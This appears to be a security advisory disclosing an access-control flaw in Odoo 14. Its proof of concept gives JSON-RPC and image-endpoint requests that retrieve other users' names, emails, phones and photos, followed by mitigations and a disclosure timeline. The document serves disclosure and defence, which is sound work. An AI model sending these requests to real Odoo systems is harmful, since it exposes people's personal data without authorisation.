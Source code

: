 # Odoo 14 - Insecure Direct Object Reference (IDOR) / Broken Access Control

## 📌 CVE ID
- Pending assignment from MITRE

## 📌 Description
A vulnerability in **Odoo 14** allows authenticated low-privilege users (with no assigned roles) to access sensitive customer and employee data.  
The endpoints `/web/dataset/call_kw/res.partner/read` and `/web/image` do not enforce proper access control, resulting in unauthorized disclosure of Personally Identifiable Information (PII).

---

## 🎯 Affected Versions
- Odoo 14 (Community & Enterprise)  
- Other versions (15, 16, 17) not tested yet.  

---

## 🛠 Vulnerability Type
- Insecure Direct Object Reference (IDOR)  
- Broken Access Control  
- Sensitive Information Disclosure  

---

## ⚠️ Impact
- Unauthorized exposure of customer and employee data:
  - Full names  
  - Emails  
  - Phone numbers  
  - Job titles  
  - Company addresses  
  - Profile images (Base64 encoded)  
- Potential compliance violation (GDPR, CCPA).  
- Risk of further data mining.  

**CVSS v3.1 Vector (example):**  
`AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N` → **Score: 7.5 (High)**  

---

## 🧪 Steps to Reproduce (PoC)

1. Login with a **basic user account** (no special roles).  
2. Intercept the following request in Burp Suite:

```http
POST /web/dataset/call_kw/res.partner/read HTTP/1.1
Host: target-odoo:8069
Content-Type: application/json
Cookie: session_id=<valid_session_id>

{
 "jsonrpc": "2.0",
 "method": "call",
 "params": {
   "args": [[39], ["id","name","email","phone","function","image_128"]],
   "model": "res.partner",
   "method": "read",
   "kwargs": {}
 },
 "id": 12345
}
```

3. Response returns details of another user:

```json
{
 "id": 39,
 "name": "Chester Reed",
 "email": "chester.reed79@example.com",
 "phone": "(979)-904-8902",
 "function": "Chief Executive Officer (CEO)",
 "image_128": "/9j/4AAQSkZJRgABAQEASABIAAD..."
}
```

4. Similarly, user images can be accessed directly:

```http
GET /web/image?model=res.users&field=image_128&id=8
```

→ Returns profile photo of another user.  

---

## 📷 Evidence
![Request 1](/evidence/Screenshot%202025-08-25%20132025.png)  
![Request 2](/evidence/Screenshot%202025-08-25%20132045.png)  
![Request 3](/evidence/Screenshot%202025-08-25%20132147.png)  
![Request 4](/evidence/Screenshot%202025-08-25%20132203.png)  
![Request 5](/evidence/Screenshot%202025-08-25%20132300.png)  
![Request 6](/evidence/Screenshot%202025-08-25%20132432.png)  
![Request 7](/evidence/Screenshot%202025-08-25%20132456.png)  

---

## 🔒 Mitigation
- Enforce record rules on `res.partner` and `res.users` models.  
- Add access control checks before returning PII.  
- Restrict `/web/image` to authorized users only.  
- Ensure ORM respects ACL/Record Rules for all JSON-RPC endpoints.  

---

## 📅 Disclosure Timeline
- 2025-08-25: Vulnerability discovered on Odoo 14 demo.  
- [Date]: Contacted Odoo Security Team.  
- [Date]: No response received.  
- [Date]: Requesting CVE from MITRE.  

---

## 👤 Credits
- Researcher: **Abdulaziz Alanazi - Resilience**
